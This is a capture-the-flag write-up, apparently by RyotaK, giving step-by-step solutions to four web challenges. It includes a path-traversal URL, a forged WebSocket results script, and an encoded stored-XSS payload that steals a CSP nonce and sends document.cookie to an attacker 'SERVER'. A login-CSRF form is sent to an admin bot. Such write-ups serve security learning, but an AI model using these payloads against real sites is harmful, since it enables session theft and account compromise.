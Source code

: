 ```yaml
---
title: 'web'
author: "RyotaK"
---
```


pp-ranking以外はあります。

## web/mikufanpage
1. Open https://mikufanpage.web.osugaming.lol/image?path=.jpg./../flag.txt

## web/when-you-dont-see-it
1. Execute `curl --silent https://osu.ppy.sh/users/11118671| grep --only-matching 'the flag is .* encoded with base64'`

## web/stream-vs
1. Open https://stream-vs.web.osugaming.lol/
2. Open DevTools
3. Execute the following JavaScript:
```javascript
function calculateClicks(targetBpm, start, end) {
    const length = end - start;
    const clicksCount = (targetBpm * 4 * length) / 60000

    const clicks = [];
    for (let i = 0; i < length; i += length / clicksCount) {
        clicks.push(i)
    }

    return clicks;
}

(async () => {
    const ws = new WebSocket(location.origin.replace("https://", "wss://").replace("http://", "ws://"));;
    ws.onmessage = (e) => {
        const {
            type,
            data
        } = JSON.parse(e.data);
        if (type === "login") {
            console.log("logged in");
            ws.send(`{"type":"challenge"}`);
            ws.send(`{"type":"start"}`);
        } else if (type === "game") {
            const song = data.songs[data.round];
            const start = data.start;
            const end = data.start + song.duration * 1000;
            const clicks = calculateClicks(song.bpm, start, end);
            const result = {
                "type": "results",
                "data": {
                    "clicks": clicks,
                    "start": start,
                    "end": end
                }
            }
            ws.send(JSON.stringify(result));

        } else if (type === "results") {
            console.log(data);
        } else if (type === "message") {
            alert(data);
        } else if (type === "error") {
            alert(data);
        }
    };
    ws.onopen = () => {
        ws.send(`{"type":"login","data":"${crypto.randomUUID()}"}`);
    }
})();
```
4. If the `Better luck next time!` popup is shown, repeat steps from step 3.

## web/profile-page-revenge
1. Open https://profile-page-revenge.web.osugaming.lol/
2. Login to your account.
3. Open https://profile-page-revenge.web.osugaming.lol/test
4. Open DevTools.
5. Execute the following JavaScript with `SERVER` replaced with your server:
```javascript
(async () => {
    const csrf = (await cookieStore.get("csrf")).value;
    await fetch("https://profile-page-revenge.web.osugaming.lol/api/update", {
        method: "POST",
        headers: {
            csrf,
            "Content-Type":"application/x-www-form-urlencoded",
        },
        body: "bio=%5byoutube%5d%5bimg%5d%3e%3c%2fiframe%3e%3ciframe%20srcdoc%3d'%3cscript%20src%3d%26quot%3b%2fa%2f%2fconsole.log(window.b%3d(parent.document.querySelector(%26amp%3bapos%3bstyle%26amp%3bapos%3b).nonce)%2cwindow.c%3ddocument.createElement(%26amp%3bapos%3bscript%26amp%3bapos%3b)%2cwindow.c.src%3d%26amp%3bapos%3bhttps%3a%2f%2fSERVER%2f%26amp%3bapos%3b.concat(document.cookie)%2cwindow.c.nonce%3dwindow.b%2cdocument.documentElement.appendChild(window.c))%2f%2f%26quot%3b%3e%3c%2fscript%3e'%20src%3d'https%3a%2f%2fwww.youtube.com%2fa'%3e%3c%2fiframe%3e%5b%2fimg%5d%5b%2fyoutube%5d"
    });
    console.log("Done");
})();
```
6. Host the following HTML on your server with `USERNAME` and `PASSWORD` replaced to your account:
```html
<form action="https://profile-page-revenge.web.osugaming.lol/api/login" method="post">
	<input name="username" value="USERNAME">
	<input name="password" value="PASSWORD">
</form>
<script>
	document.querySelector("form").submit();
</script>
```

7. Send the URL of the HTML file above to https://adminbot.web.osugaming.lol/profile-page-revenge
8. You'll receive the flag on your server.